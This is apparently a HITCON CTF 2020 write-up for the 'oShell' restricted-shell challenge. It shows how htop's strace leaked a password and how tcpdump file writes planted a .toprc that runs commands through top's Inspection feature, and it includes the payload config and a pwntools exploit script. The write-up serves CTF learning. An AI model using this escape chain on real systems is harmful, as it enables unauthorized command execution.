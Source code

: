 HITCON CTF 2020 oShell

# HITCON CTF 2020 oShell

## Description
> oShell \[280pts\]  
> Simple shell escaping!  
> (Same team-token keeps in the same environment)
> 
> ssh oshell@54.150.148.61 (pwd=oshell)
> 
> Author: Orange  
> 21 Teams solved.

https://github.com/orangetw/My-CTF-Web-Challenges#oShell

## tl;dr
1. htop strace
2. `tcpdump -r - -w /home/oShell/.toprc`

## Walkthrough

After logging in with the team token, it presents a very limited shell (oShell). 

```
[*] Initializing instance...

Welcome to
        __  _            _  _
  ___  / _\| |__    ___ | || |
 / _ \ \ \ | '_ \  / _ \| || |
| (_) |_\ \| | | ||  __/| || |
 \___/ \__/|_| |_| \___||_||_|

oshell~$ help
Available commands:
  help
  exit
  id
  ping
  ping6
  traceroute
  traceroute6
  arp
  netstat
  top
  htop
  enable
oshell~$

```

### Stage 1: htop strace

The first target is to `enable` but it requires a password.

```
oshell~$ enable
Password:
Wrong password :(
oshell~$
```

Randomly creating connection to the server, sometimes it will show some errors. The path of the password is in `/enable.secret`. Sadly we can't read it :(

```
docker: Error response from daemon: Conflict. The container name "/team-xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx" is already in use by container "e52cbba1e1478062a7d3ffb706179c72b40fa03134b3ce24f46d81576a5eb
4a7". You have to remove (or rename) that container to be able to reuse that name.
See 'docker run --help'.
Traceback (most recent call last):
  File "/home/orange/oShell-wrapper.py", line 78, in <module>
    my_exec(cmds)
  File "/home/orange/oShell-wrapper.py", line 38, in my_exec
    return check_output(cmds)
  File "/usr/lib/python2.7/subprocess.py", line 223, in check_output
    raise CalledProcessError(retcode, cmd, output=output)
subprocess.CalledProcessError: Command '['sudo', 'docker', 'run', '-d', '--rm', '--env', 'LOG_HOST=172.17.0.1', '-v', '/home/orange/tmp/team-xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx_8aVBVM:/enable.secret', '
--name', 'team-xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx', 'oshell']' returned non-zero exit status 125
Connection to 54.150.148.61 closed.
```

After playing around with the commands available in the shell, we found that it is possible to do `strace` on another process with `htop` by pressing `s`, thus the secret exposed when the python script attempted to compare the passwords on another terminal.

![ff965712d62442cbb78b70773ab937eb.png](ff965712d62442cbb78b70773ab937eb.png)

But the challenge is not ending here...

### Stage 2: relaxed `.toprc` config

After 'enabling' the shell, few more commands appeared

```
(enabled) oshell~# help
Available commands:
  help
  exit
  id
  ping
  ping6
  traceroute
  traceroute6
  arp
  netstat
  top
  htop
  ifconfig
  tcpdump
  enable

```

Running enable twice does not help, so i guess we need to do RCE then. The most suspicious command is the `tcpdump`, as it is the most complex one.

We attempted to run post-rotate commands in `tcpdump` but seems that it does not work at all. 

Later, we discovered that the `top` command [contain an special feature called Inspection](https://manpages.ubuntu.com/manpages/xenial/man1/top.1.html). It can be accessed by pressing `Y` in `top`, and it can run commands base on the config file's content (`~/.toprc`). It effectively converting an Arbitrary File Write to RCE, but how can we write files?

After reading the manuals and some trial and error on my local docker, we found out that the `tcpdump` command can write file with custom content using `tcpdump -r - -w /path/to/file`, which reads `stdin` for a pcap and write to the destination file.

... Sounds good! But `tcpdump` only accept pcap file as an input.

Luckily the format of `.toprc` is very relaxed so we can embed the content of it in a pcap file, therefore we can do RCE. The pcap file can be generated by `curl -T .toprc http://example.com` while `tcpdump` it locally, and I wrote an semi-auto interactor to send the pcap file to the remote server.

#### Content of `.toprc`
The first half are the default `top` configs.
```
top's Config File (Linux processes with windows)
Id:i, Mode_altscr=0, Mode_irixps=1, Delay_time=1.500, Curwin=0
Def	fieldscur=¥&K¨³´»½@·º¹56ÄFÅ')*+,-./0128<>?ABCGHIJLMNOPQRSTUVWXYZ[\]^_`abcdefghij
	winflags=162102, sortindx=18, maxtasks=0, graph_cpus=1, graph_mems=2
	summclr=1, msgsclr=1, headclr=3, taskclr=1
Job	fieldscur=¥¦¹·º(³´Ä»½@<§Å)*+,-./012568>?ABCFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcdefghij
	winflags=163124, sortindx=0, maxtasks=0, graph_cpus=2, graph_mems=0
	summclr=6, msgsclr=6, headclr=7, taskclr=6
Mem	fieldscur=¥º»<½¾¿ÀÁMBNÃD34·Å&'()*+,-./0125689FGHIJKLOPQRSTUVWXYZ[\]^_`abcdefghij
	winflags=163124, sortindx=21, maxtasks=0, graph_cpus=2, graph_mems=0
	summclr=5, msgsclr=5, headclr=4, taskclr=5
Usr	fieldscur=¥¦§¨ª°¹·ºÄÅ)+,-./1234568;<=>?@ABCFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcdefghij
	winflags=163124, sortindx=3, maxtasks=0, graph_cpus=2, graph_mems=0
	summclr=3, msgsclr=3, headclr=2, taskclr=3
Fixed_widest=0, Summ_mscale=2, Task_mscale=1, Zero_suppress=0

# This few lines can run command using the Inspection feature
pipe	111	cat /* 2>&1
pipe	222	ls -al / 2>&1
pipe	333	/readflag 2>&1
```

#### Interactor
```py
import re
from pwn import *

team_token = "xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx"

toprc = open('toprc', 'rb').read()

# https://stackoverflow.com/questions/46329447/write-non-ascii-characters-to-stdin-of-a-progam-on-a-tty-over-ssh
toprc = re.sub(br'(.)', b'\x16\g<0>', toprc)

# sshpass -p oshell ssh oshell@54.150.148.61
def new():
    s = ssh(
        host='54.150.148.61',
        user='oshell',
        password='oshell',
        timeout=5,
        level=9
    )

    r = s.run('')
    r.recvuntil('Team token: ')
    r.sendline(team_token)
    r.recvuntil('oshell~$ ')
    return r

r1 = new()
r1.interactive()

# After enabling, Press Ctrl+D to send payload

r1.sendline("tcpdump -r - -w /home/oShell/.toprc")
sleep(2)
r1.sendline(toprc)

# Send some Ctrl+D, Ctrl+C
r1.send("\x04\x03\x03\x03\x03")

r1.interactive()
```

After writing the `.toprc`, run `top` on the another shell and profit (利潤！).

